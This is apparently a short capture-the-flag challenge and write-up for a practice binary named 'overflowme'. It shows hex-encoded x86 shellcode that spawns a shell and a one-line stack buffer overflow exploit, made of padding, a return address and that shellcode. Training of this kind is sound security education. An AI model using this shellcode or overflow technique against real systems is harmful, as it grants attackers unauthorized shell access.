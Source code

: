 Overflowme
==========

Read the contents of /home/user1035/problems/overflowme/key on the 
shell server.

Hints:
 - Have you heard of buffer overflows?
 - Here's a shellcode for you: `\x31\xC0\xF7\xE9\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x68\x2D\x69\x69\x69\x89\xE6\x50\x56\x53\x89\xE1\xB0\x0B\xCD\x80`
 - Stack addresses may differ in gdb
 - `dmesg | tail -n 1` can give you a lot of info about a crashing process

Writeup
-------

    $ ./overflowme `python -c 'print "A"*64+"\x50\xd6\xff\xff"+"\x31\xC0\xF7\xE9\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x68\x2D\x69\x69\x69\x89\xE6\x50\x56\x53\x89\xE1\xB0\x0B\xCD\x80"'`

